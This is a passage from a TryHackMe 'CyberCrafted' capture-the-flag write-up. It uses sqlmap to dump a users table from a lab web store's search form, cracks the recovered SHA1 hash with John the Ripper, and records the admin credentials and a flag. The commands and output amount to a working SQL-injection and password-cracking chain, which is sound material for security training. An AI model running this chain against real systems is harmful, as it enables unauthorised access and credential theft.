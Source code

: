 > `sqlmap -u http://store.cybercrafted.thm/search.php --forms --dump`

```
+----+------------------------------------------+---------------------+
| id | hash                                     | user                |
+----+------------------------------------------+---------------------+
| 1  | 88b949dd5cdfbecb9f2ecbbfa24e5974234e7c01 | xXUltimateCreeperXx |
| 4  | THM{bbe315906038c3a62d9b195001f75008}    | web_flag            |
+----+------------------------------------------+---------------------+
```

### Crack the Hash
Give it to **John**:

```
┌──(kali㉿kali)-[~/…/THM-GIT/Medium/004-CyberCrafted-01APR2022/Data]
└─$ echo "88b949dd5cdfbecb9f2ecbbfa24e5974234e7c01" > hash01
                                                                                                                                                                   
┌──(kali㉿kali)-[~/…/THM-GIT/Medium/004-CyberCrafted-01APR2022/Data]
└─$ john --wordlist=/usr/share/wordlists/rockyou.txt --format=raw-SHA1 hash01
Using default input encoding: UTF-8
Loaded 1 password hash (Raw-SHA1 [SHA1 256/256 AVX2 8x])
Warning: no OpenMP support for this hash type, consider --fork=2
Press 'q' or Ctrl-C to abort, almost any other key for status
diamond123456789 (?)     
1g 0:00:00:00 DONE (2022-04-02 09:00) 1.818g/s 15705Kp/s 15705Kc/s 15705KC/s diamond1336..diamond123123
Use the "--show --format=Raw-SHA1" options to display all of the cracked passwords reliably
Session completed.
```

### Creds

> UN: xXUltimateCreeperXx  
> PW: diamond123456789  


---
## Login to the Admin Page
Seems to simple:

![AdminLogin](Images/006-adminlogin.png)
